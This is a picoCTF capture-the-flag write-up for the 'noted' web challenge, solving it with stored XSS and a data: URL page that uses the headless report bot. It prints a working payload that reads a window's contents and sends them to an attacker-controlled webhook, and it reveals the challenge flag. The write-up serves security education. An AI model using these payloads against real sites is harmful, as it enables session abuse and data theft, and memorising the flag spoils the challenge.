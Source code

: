 # noted

## Challenge

I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right? Note that the headless browser used for the "report" feature does **not** have access to the internet. Create an account at this [website](http://saturn.picoctf.net:60244/). Source code: [noted.tar.gz](noted.tar.gz).

Hints:

1. Are you *sure* I followed all the best practices?
2. There's more than just HTTP(S)!
3. Things that require user interaction normally in Chrome might not require it in Headless Chrome.

## Solution

Note that this challenge is very similar to TBDXSS from Perfect Blue CTF 2021. We found [this writeup](https://github.com/sambrow/ctf-writeups-2021/tree/master/perfect-blue-ctf/TBDXSS), which helped us design our exploit for this challenge.

Looking at the `package.json` in the source code reveals what technologies we are dealing with:

```json
"dependencies": {
    "argon2": "^0.28.3",
    "ejs": "^3.1.6",
    "fastify": "^3.25.3",
    "fastify-csrf": "^3.1.0",
    "fastify-formbody": "^5.2.0",
    "fastify-secure-session": "^3.0.0",
    "point-of-view": "^5.0.0",
    "puppeteer": "^13.0.1",
    "sequelize": "^6.12.5",
    "sqlite3": "^5.0.2"
}
```

We have a Node application powered by the [fastify](https://www.fastify.io/) framework. It is using the [EJS templating language](https://ejs.co/). There is a sqlite3 database. Immediately, `puppeteer` draws my attention since [puppeteer](https://github.com/puppeteer/puppeteer) is a headless API for Chrome. So, we likely will have to manipulate a Chrome browser.

The actual website allows users to register, sign in, create a new note with a title and body, and view their notes. Importantly, there is also a report function, where we can specify a URL to report.

Looking back at the source code, in `views/notes.ejs` we see that the `<%-` tag is used, which "outputs the unescaped value into the template" according to the [EJS docs](https://ejs.co/#docs) under the "Tags" heading. This means we can injection HTML code into the `/notes` page. Creating a new note with `<script>alert(1)</script>` in the body and going to `/notes` displays the alert box, which confirms our suspicion. This is probably what the first hint was referring to.

In `report.js` we can see what happens when we submit a URL using the report function. `puppeteer` is used to create an account on the website using a random username and password that cannot be bruteforced. Then, the browser navigates to the new node page, creates a note with the flag as the contents, and navigates to `about:blank`, which is just a bank page. Then, 7.5 seconds later, the browser is closed.

So, right now, our XSS exploit cannot be used to get the flag since we can only inject HTML into a page that only our account can visit.

After inputting various URLs into the report option, I noticed that the puppeteer instance actually does have internet connectivity, despite the challenge description saying it doesn't. This should make our exploit a little simpler. Navigating to [webhook.site](https://webhook.site) and then pasting the provided URL into the report option and pressing submit, shows a GET request coming from the application.

So, the exploitation plan is as follows:

1. Create an attacker controlled account with credentials `a:a`.
2. Create a new note on that account containing a script that reads the HTML of a window named `pico` and sends it to our webhook.
3. Then, we will send a report request for a page that will open a window named `pico` to the `/notes` page containing the flag. Our page/script will then login to our attacker account and go to the `/notes` page, triggering our XSS payload (which will read the `/notes` page containing the flag and send it to our webhook).

This is possible because of `window.open`. According to the [MDN documentation](https://developer.mozilla.org/en-US/docs/Web/API/Window/open), we can use the syntax `open(url, target)`, where `url` is the URL we want to open and `target` is the name of the window that the resource is being loaded into. In a normal browser, using `window.open` prompts the user if they want to allow a popup window to open, but in headless Chrome, `window.open` will work without interaction, which is probably what hint 3 refers to.

Additionally, as long as the opened page is on the same origin, then we can interact with and read the DOM of the opened page. This is because the return value of `window.open` is a [WindowProxy](https://developer.mozilla.org/en-US/docs/Glossary/WindowProxy) object. [MDN states](https://developer.mozilla.org/en-US/docs/Web/API/Window/open#return_value) that "the returned reference can be used to access properties and methods of the new window as long as it complies with Same-origin policy security requirements."

We will use [webhook.site](https://webhook.site) to receive data since it's free, doesn't require an account, and publicly accessible. [requestbin.com](https://requestbin.com/) is an alternative and [ngrok](https://ngrok.com/) could also be used.

We do step 1 manually.

For step 2, we use the below code:

```html
<script>
if (window.location.search.includes("run_xss")) {
    window.location = "https://webhook.site/d84a226b-8c34-494f-b6d4-6022aded5b82?" + window.open("", "pico").document.body.textContent
}
</script>
```

If the window's current URL contains `run_xss` as a parameter in the URL, then the window will be redirected (which is just a simple way to cause a GET request) to our webhook with the text content of the `pico` window as a parameter. We pass an empty string to the `url` parameter of `window.open` so that a new page is not loaded and we can access the currently loaded object.

For step 3, we will create a simple page and pass it into the report function using the `data:text/html` [data url](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URIs). This is probably what the second hint was referring to since we are not using HTTP(S). Below is the payload:

```html
data:text/html,
<form action="http://0.0.0.0:8080/login" method=POST id="login_form" target="_blank">
    <input type="text" name="username" value="a"><input type="text" name="password" value="a">
</form>
<script>
    window.open("http://0.0.0.0:8080/notes", "pico");
    setTimeout(function() {login_form.submit()}, 1000);
    setTimeout(function() {window.location="http://0.0.0.0:8080/notes?run_xss"}, 2000);
</script>
```

We create a form that will cause the login to occur when it is submitted. The target is `_blank` so that it opens in a new window and does not stop our script from running (by opening in the current window). Additionally, the form has the username and password fields already filled out so nothing needs to be inputted. We use a form on a whole new page instead of making the POST request using JavaScript (using the [`fetch` api](https://stackoverflow.com/a/47065313)) so that the login cookie is set.

Then, our script performs the following actions:

1. Open a new window named `pico` (so we can refer to it using our XSS payload) and open the `/notes` page with the flag on it.
2. Wait 1 second and then submit the form to login to the site on the attacker account that we control. This happens in a new window.
3. Wait another second and then change the current window's location (which has been `about:blank` until now) to the `/notes` page with our `run_xss` parameter, causing our XSS to run, which will grab the text content from the `pico` window containing the flag and send it to our webhook.

Now, all there is to do is create a note on our `a:a` account with the second step's XSS payload. Then, paste step 3's payload into the report function and click "Report". In a few seconds you should see the flag appear in the webhook requests panel.

### Flag

`picoCTF{p00rth0s_parl1ment_0f_p3p3gas_386f0184}`
